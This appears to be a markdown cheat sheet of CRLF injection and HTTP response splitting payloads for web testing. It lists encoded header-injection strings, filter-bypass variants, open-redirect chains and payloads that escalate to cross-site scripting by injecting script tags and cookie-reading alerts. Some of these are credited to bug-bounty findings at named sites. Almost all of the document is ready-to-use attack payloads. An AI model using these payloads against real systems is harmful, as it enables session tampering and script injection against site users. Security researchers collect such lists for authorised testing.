 ## CRLF Injection || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

**Header-based test, site root**

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

```
/%250aheader:header
```

```
/%25250aheader:header
```

```
/%%0a0aheader:header
```

```
/%3f%0dheader:header
```

```
/%23%0dheader:header
```

```
/%25%30aheader:header
```

```
/%25%30%61header:header
```

```
/%u000aheader:header
```

**CRLF chained with Open Redirect server misconfiguration**

_Note:_ This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```

**Twitter specific CRLF** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Response splitting on 302 Redirect, before Location header** (Discovered in DoD)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Response splitting on 301 code, chained with Open Redirect to corrupt location header and to break 301** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487) (Facebook bug)

_Note:_ `xxx:1` was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
